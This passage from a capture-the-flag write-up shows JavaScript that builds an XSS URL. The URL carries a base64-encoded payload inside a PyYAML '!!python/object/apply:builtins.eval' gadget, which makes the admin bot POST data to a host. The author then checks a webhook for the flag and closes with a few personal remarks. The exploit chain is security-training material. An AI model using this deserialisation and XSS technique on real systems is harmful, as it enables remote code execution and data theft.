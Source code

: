 ```js=

const payload = `
document.cookie = 'debug=on';
fetch('${HOST}/debug', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'yaml=${encodeURI(input).replaceAll("'", "\\'")}'
});`;

const xss = `!!python/object/apply:builtins.eval \\n- __import__('js').eval('eval(atob(\\\\'${btoa(payload)}\\\\'))')`;


console.log(HOST + '/#' + xss);
```

Run this in a javascript console to get the url, then paste if over at the textbox in `/report` page.

![image](/images/upload_6debe6a0e69bb9ef19ad17d1d5d672ed.png)

If you check your webhook, you should have the flag !!

![image](/images/upload_19d929662891d118b83918bac74d6511.png)

## Comments
Cool and interesting task, ~~glad to be the only secondary school team to solve it.~~
Writing this took almost as long as solving the task (I think), so I hope you the reader have found it useful <3

ensy out